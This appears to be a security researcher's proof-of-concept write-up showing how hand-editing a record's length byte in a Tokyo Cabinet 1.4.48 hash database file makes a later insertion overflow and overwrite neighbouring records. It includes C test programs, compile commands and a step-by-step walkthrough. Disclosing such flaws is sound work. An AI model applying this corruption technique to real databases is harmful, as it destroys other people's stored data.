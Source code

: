 # Record Overwriting

So this will cover the POC for how, by malicously crafting records in the database file, you can actually cause other insertions to overwrite data as the database is running. This is caused by the insertion process trusting the sizes of the record.

This was done on tokyocabinet version `1.4.48`, which according to the website (https://fallabs.com/tokyocabinet/), is the latest version at this time (03/12/2022).

## POC File Setup

All of these POC files were based off of the Tokyocabinet examples.

Source code for: `database_file_creation.c`:

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;

  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* store records */
  if(!tchdbput2(hdb, "gohan", "kamehameha") ||
     !tchdbput2(hdb, "picolo", "finger_thing") ||
     !tchdbput2(hdb, "vegeta", "final_flash")){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "put error: %s\n", tchdberrmsg(ecode));
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

Source code for: `database_insertion.c`:

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;

  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "overwritten-fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* store records */
  if(!tchdbput2(hdb, "gohan", "kaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamehameha")){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "put error: %s\n", tchdberrmsg(ecode));
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

Source code for: `database_querying.c`:

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;
  char *value;


  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "overwritten-fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* retrieve records */
  value = tchdbget2(hdb, "picolo");
  if(value){
    int i = 0;
    printf("%s\n", value);
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

And to compile all of these:

```
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_file_creation.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_file_creation database_file_creation.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_querying.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_querying database_querying.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_insertion.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_insertion database_insertion.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
```

## POC Walkthrough

So starting off, we will call the `database_file_creation` binary, to actually build our database for us:

```
$	./database_file_creation
$	ls | grep fighters.z 
fighters.z
```

Which looks like this:

![Database Plain](database_plain.png)

So our goal is, we will edit the `gohan` record, specifically the size valeus on it, to increase it past what it should be. That way, we insert a new `gohan` record with a size that aligns with our corrupted size, which is larger than the actual size, it will write the larger record overtop the previous record, which will cause it to overflow and overwrite the following records. We will try to overwrite the `picolo` record, since that is the record is directly after it.

First lets copy the created database file over, to the one we will corrupt (that way we have a before/after for the database file):

```
$	cp fighters.z overwritten-fighters.z
```

Second, we will see that we are able to actually successfully query the `picolo` record, with the `database_querying` binary:

```
$	./database_querying 
finger_thing
```

Now we we will edit the database file. We will overwrite the value length for the gohan record, the byte at `0x8114D` with the value `0x6E`. It will look like this:

![Database pre-overwrite](record_pre_overwrite.png)

Also if you want to, just use the backup:

```
$	cp backup_overwritten-fighters.z overwritten-fighters.z
```

Now run the `database_insertion` binary to insert the record, and trigger the overwrite:

```
$	./database_insertion
```

And when we look at the database file, we see that both the `picolo` and `vegeta` record were overwritten:

![Database Overwritten](database_overwritten.png)

And we see, we that we are no longer able to query the `picolo` record:

```
$	 ./database_querying
```

Just like that, we were able to cause a database insertion operation to overwrite records.

Also for context, this is what the database would like if we would insert the record into the DB without any size editing:

![Insertion Correct](insertion_correct.png)